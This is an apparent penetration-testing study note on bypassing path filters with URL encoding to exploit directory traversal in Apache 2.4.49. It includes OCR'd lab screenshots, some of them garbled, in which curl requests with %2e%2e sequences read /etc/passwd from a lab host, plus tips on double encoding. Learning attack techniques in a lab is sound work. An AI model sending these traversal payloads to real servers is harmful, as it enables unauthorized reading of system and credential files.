

---
tags:
  - phase/exploitation
---

# Encoding special characters


> [!note]- Screenshot
> ```
> Let's use curl and multiple ../ sequences to try exploiting this
> directory traversal vulnerability in Apache 2.4.49 on the WEB18
> machine.
> kaligkali:/var/ww/html$ curl http://192.168.50.16/cgi-bi
> N/../s./+0/.-/etc/passwd
> <!DOCTYPE HTML PUBLIC “-//IETF//DTD HTML 2.0//EN">
> <html><head>
> <title>4e4 Not Found</title>
> </head><body>
> <hi>Not Found</h1>
> <p>The requested URL was not found on this server.</p>
> </body></html>
> kali@kali:/var/ww/html$ curl http://192.168.50.16/cgi-bi
> W/L eLecLecLeLeLerL eel eels sJetc/ passwd
> <!DOCTYPE HTML PUBLIC “-//IETF//DTD HTML 2.0//EN">
> <html><head>
> <title>4e4 Not Found</title>
> </head><body>
> <hi>Not Found</h1>
> <p>The requested URL was not found on this server.</p>
> </body></html>
> Listing 11 - Using *./* to leverage the Directory Traversal vulnerability in Apache 2.4.49
> ```


> [!note]- Screenshot
> ```
> Listing 11 demonstrates that after attempting two queries with a
> different number of ../, we could not display the contents of
> Jetc/passwd via directory traversal. Because leveraging ../ is a
> known way to abuse web application behavior, this sequence is
> often filtered by either the web server, web application firewalls,
> or the web application itself.
> Fortunately for us, we can use URL Encoding, also called Percent
> Encoding, to potentially bypass these filters. We can leverage
> specific ASCII encoding lists to manually encode our query from
> listing 11 or use the online converter on the same page. For now,
> we will only encode the dots, which are represented as "%2e".
> 
> kaligkali:/var/wm/html$ curl http: //192.168.50.16/cgi-bin/%2e%
> 
> 2e/%2e%2e/%2ek2e/%2ek2e/ etc/passwd
> 
> root :x:0:0:root: /root :/bin/bash
> 
> daemon:x:1:41:daemon: /usr/sbin: /usr/sbin/nologin
> 
> bin:x:2:2:bin:/bin: /usr/sbin/nologin
> 
> sys:x:3:3: sys: /dev: /usr/sbin/nologin
> 
> _apt:x:100: 65534: : /nonexistent : /usr/sbin/nologin
> 
> alfred:x:1000: 1000: : /home/al fred: /bin/bash
> "Listing 12 = Using encoded dots for Directory Traversal =
> We have successfully used directory traversal with encoded dots
> to display the contents of /etc/passwd on the target machine.
> ```


> [!note]- Screenshot
> ```
> Generally, URL encoding is used to convert characters of a web
> request into a format that can be transmitted over the internet.
> However, it is also a popular method used for malicious
> purposes. The reason for this is that the encoded representation
> of characters in a request may be missed by filters, which only
> check for the plain-text representation of them e.g. ../ but not
> %2e%2e]. After the request passes the filter, the web application
> or server interprets the encoded characters as a valid request.
> ```

## Visual Flow



> [!success] What success looks like
> The plain `../` request returns a 404 "Not Found", but the encoded version `%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` returns the file: `root:x:0:0:root:/root:/bin/bash`.

> [!danger] Common errors
> - Encoded payload still blocked → the filter may decode once; try double URL-encoding (`%252e`). See [[🔣 Encoding Reference]].
> - Forgot to encode every dot → encode each `.` as `%2e`; partial encoding often still trips the filter.
> - Slash also filtered → encode `/` as `%2f` as well.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> URL (percent) encoding swaps a character for its ASCII code with a `%` in front, so `.` becomes `%2e`. Simple filters only look for the literal text `../`, but the server still decodes `%2e%2e/` back into `../` — so the encoded version sneaks past the filter and still works.

---
%% graph-links %%
## Related
- [[Identifying and exploiting directory traversals]]
- [[Absolute vs relative paths]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/Directory Traversal/_index|Directory Traversal]] · Home: [[🏠 Home]]

